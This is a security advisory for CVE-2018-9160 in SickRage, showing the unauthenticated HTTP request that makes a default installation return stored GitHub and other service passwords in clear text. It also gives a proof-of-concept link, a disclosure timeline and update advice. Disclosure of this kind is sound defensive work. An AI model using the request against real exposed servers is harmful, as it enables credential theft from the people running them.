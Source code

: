 # Sickrage cleartext github credentials CVE-2018-9160
---------------------------------------------------------------------

1. About

---------------------------------------------------------------------
Exploit Title: SickRage Clear-Text Credentials in HTTP Response  
Date: 2018-04-01  
Exploit Author: Sven Fassbender  
Contact: https://twitter.com/mezdanak  
Vendor Homepage: https://sickrage.github.io  
Software Link: https://github.com/SickRage/SickRage  
Version: < v2018.03.09-1  
CVE : CVE-2018-9160  
Category: webapps  

---------------------------------------------------------------------

2. Background information

---------------------------------------------------------------------
"SickRage is an automatic Video Library Manager for TV Shows.  
It watches for new episodes of your favourite shows, and when they are posted it does its magic:   
automatic torrent/nzb searching, downloading, and processing at the qualities you want." --extract from https://sickrage.github.io  

---------------------------------------------------------------------

3. Vulnerability description

---------------------------------------------------------------------
SickRage returns clear-text credentials for e.g. GitHub, AniDB, Kodi, Plex etc. in HTTP responses.  
Prerequisite is that the user did not set a username and password for their SickRage installation. (not enforced, default)  
  
HTTP request:  
GET /config/general/ HTTP/1.1  
Host: 192.168.1.13:8081  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: de,en-US;q=0.7,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.13:8081/config/backuprestore/  
DNT: 1  
Connection: close  
Upgrade-Insecure-Requests: 1  
  
  
HTTP response:  
HTTP/1.1 200 OK  
Content-Length: 113397  
Vary: Accept-Encoding  
Server: TornadoServer/4.5.1  
Etag: "e5c29fe99abcd01731bec1afec0e618195f1ae37"  
Date: Fri, 02 Mar 2018 10:47:51 GMT  
Content-Type: text/html; charset=UTF-8  
  
```html
<!DOCTYPE html>  
<html lang="nl_NL">  
    <head>  
		[...]  
        <input type="text" name="git_username" id="git_username" value="email@example.com" class="form-control input-sm input300" autocapitalize="off" autocomplete="no" />  
        [...]  
        <input type="password" name="git_password" id="git_password" value="supersecretpassword" class="form-control input-sm input300" autocomplete="no" autocapitalize="off" />  
		[...]  
        </div>  
    </body>  
</html>  
```

---------------------------------------------------------------------

4. Proof of Concept

---------------------------------------------------------------------
https://github.com/mechanico/sickrageWTF/blob/master/get_github_creds_sickrage.py  

---------------------------------------------------------------------

5. Timeline

---------------------------------------------------------------------
[2018-03-07] Vulnerability discovered  
[2018-03-08] Vendor contacted  
[2018-03-08] Vendor replied  
[2018-03-09] Vulnerability fixed. (https://github.com/SickRage/SickRage/compare/v2018.02.26-2...v2018.03.09-1)  
  
---------------------------------------------------------------------

6. Recommendation

---------------------------------------------------------------------
Update the SickRage installation on v2018.03.09-1 or later.  
Protect the access to the web application with proper user credentials.  
  
---------------------------------------------------------------------
